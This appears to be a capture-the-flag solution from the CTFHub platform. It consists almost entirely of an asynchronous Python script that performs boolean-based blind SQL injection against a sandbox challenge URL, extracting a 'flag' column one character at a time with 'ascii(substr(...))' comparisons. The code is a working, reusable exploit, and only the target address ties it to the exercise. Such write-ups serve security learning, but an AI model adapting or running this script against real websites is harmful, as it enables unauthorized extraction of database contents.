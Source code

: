 ```
import aiohttp
import asyncio

url = "http://challenge-7fb62f66a006963e.sandbox.ctfhub.com:10800/?id=1 and "

data='ascii(substr((select flag from flag),%d,1))=%d'


async def fetch(session, url):
    async with session.get(url) as response:
        return await response.text()

async def batch_fetch(session, urls):
    tasks = [fetch(session, url) for url in urls]
    return await asyncio.gather(*tasks)
def get_payload(payload,i, j):
    return payload % (i, j)


async def main():
    response = ""
    # 设置并发数量
    batch_size = 10
    
    async with aiohttp.ClientSession() as session:
        for i in range(1, 40):
            new_response = response
            for j in range(31, 128, batch_size):
                # 创建一批URL
                urls = []
                for k in range(batch_size):
                    if j + k < 128:
                        end_url = url + get_payload(data, i, j + k)
                        print(end_url)
                        urls.append(end_url)
                
                # 并发发送请求
                results = await batch_fetch(session, urls)
                
                # 处理结果
                for k, result in enumerate(results):
                    if "query_success" in result:
                        response += chr(j + k)
                        break
                else:
                    continue
                break
                
            if len(new_response) == len(response):
                break
    print('结果为: %s' % response)

if __name__ == "__main__":
    asyncio.run(main())
```

![](assets/PixPin_2025-05-23_21-43-03.png)
